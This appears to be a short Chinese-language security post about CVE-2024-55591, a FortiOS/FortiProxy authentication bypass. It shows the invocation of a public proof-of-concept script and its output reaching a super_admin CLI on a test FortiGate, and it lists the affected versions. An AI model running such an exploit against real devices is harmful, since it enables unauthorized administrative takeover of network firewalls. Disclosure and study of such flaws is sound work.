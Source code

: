 #  CVE-2024-55591 Fortinet FortiOS 身份验证绕过  
 TtTeam   2025-06-20 08:34  
  
针对 CVE-2024-55591 的概念验证，针对 FortiOS (Fortigate) 管理接口。通过创建暴力破解 WebSocket 连接来创建竞争条件并绕过身份验证，可以发送未经身份验证的 FortiOS CLI 命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB1BWA2iaJfo4q3h3ib35ndnzFLO95w3cjDEuQqlmhnez135SfHlqlnyY8ibI9CqtYgxa0L0IL0cl7ic3A/640?wx_fmt=png&from=appmsg "")  
```
python CVE-2024-55591-PoC.py --host 192.168.1.5 --port 443 --command "get system status" --user watchTowr --ssl
             __         ___  ___________                   
     __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
     \ \/ \/ \__  \    ___/ ___\|  |  \\|    | /  _ \ \/ \/ \_  __ \
      \     / / __ \|  | \  \\___|   Y  |    |(  <_> \     / |  | \
       \/\_/ (____  |__|  \\\\___  |___|__|__  | \\__  / \\/\_/  |__|   
                  \\          \\     \\                              

        CVE-2024-55591.py
        (*) Fortinet FortiOS Authentication Bypass (CVE-2024-55591) POC by watchTowr

          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2024-55591]

[*] Checking if target is a FortiOS Management interface
[*] Target is confirmed as a FortiOS Management interface
[*] Target is confirmed as vulnerable to CVE-2024-55591, proceeding with exploitation
Output from server: �m"watchTowr" "admin" "watchTowr" "super_admin" "watchTowr" "watchTowr" [13.37.13.37]:1337 [13.37.13.37]:1337

Output from server: �
get system status

Output from server: �~�FAKESERIAL # "Local_Process_Access" "Local_Process_Access" "root" "" "" "none" [x.x.x.x]:54546 [x.x.x.x]:443
Unknown action 0

FAKESERIAL # 
FAKESERIAL # get system status
Version: FortiGate-VM64-AWS v7.0.16,build0667,241001 (GA.M)
Security Level: High
Firmware Signature: certified
Virus-DB: 1.00000(2018-04-09 18:07)

```  
  
影响的版本  
- FortiOS 7.0.0 至 7.0.16  
  
- FortiProxy 7.0.0 至 7.0.19  
  
- FortiProxy 7.2.0 至 7.2.12  
  
